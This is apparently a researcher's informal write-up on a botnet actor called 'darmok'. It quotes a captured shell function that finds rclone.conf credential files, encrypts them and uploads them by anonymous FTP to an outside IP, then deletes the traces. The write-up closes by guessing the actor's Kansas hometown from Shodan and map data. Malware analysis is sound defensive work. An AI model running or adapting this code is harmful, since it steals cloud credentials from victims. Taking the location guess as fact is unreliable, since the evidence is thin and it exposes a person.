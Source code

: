 ## Darmok's Downfall

During routine testing. Found a device that was compromised  Monday, December 23, 2019 1:49:54 PM GMT-06:00.

After echoing out the base64 and decoding the string I was able to disern this was darmok from his use of a `d1()` function name.

After pulling down J6M86V.sh there wasn't a whole lot that was different.

Darmok has been at 'war' with another botnet actor for a while and has had to change up and move c2's around a bit.

However another machine was compromised Sunday, December 8, 2019 8:55:09 PM GMT-06:00. This had a file that I had not noticed before called `test.txt`.

After pulling down the file...it failed...

It was odd as most of his script is taking great lengths to ensure that his code is properly downloaded.

upon using a browser to go to that link I was greeted with a download page from http://www.mediafire.com/file/zk19hsd265x3kgx/test1.txt/file

Works for me.

upon inspecting the file it was a very similiar to identical script that was used before.

However, On inspection there was a call to a ftp server using anonymous login.

```
grabfilego(){
rcl=$(find ~/ /root /home -maxdepth 3 -name 'rclone.conf' | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)
curl -o /tmp/pub.asc https://s.put.re/km9V1CWT.asc
gpg --import /tmp/pub.asc
for file in $rcl
do
gpg --trust-model always --recipient me@me.com --encrypt $file
curl -T $file.gpg ftp://anonymous:anonymous@136.55.35.132/Passport/Music/Various/$(head /dev/urandom | tr -dc a-z0-9 | head -c 5).gpg
rm -rf *.gpg
find ~/ /root /home -maxdepth 3 -name 'rclone.conf.gpg' -exec rm {} \;
done
```

A quick shodan search pulls in the information.
https://www.shodan.io/host/136.55.35.132

Screenshot is also attached.

The two towns that were mentioned interested me.

A quick google search in googlemaps can be found here:
https://www.google.com/maps/dir/Overland+Park,+KS/Pretty+Prairie,+KS+67570/@37.8013383,-98.0546907,10.5z/data=!4m14!4m13!1m5!1m1!1s0x87c09551a72638d3:0x24ce4feb3844f9c8!2m2!1d-94.6707917!2d38.9822282!1m5!1m1!1s0x87a4d0ac8dfb4407:0xb75fd6945327576!2m2!1d-98.0197792!2d37.7800135!3e0

NOTE: the same body of water is pictured here from the shodan link.

The two neighboring towns where 'darmok' is then would be at a glance within Pretty Prairie, Kansas or Andale, Kansas
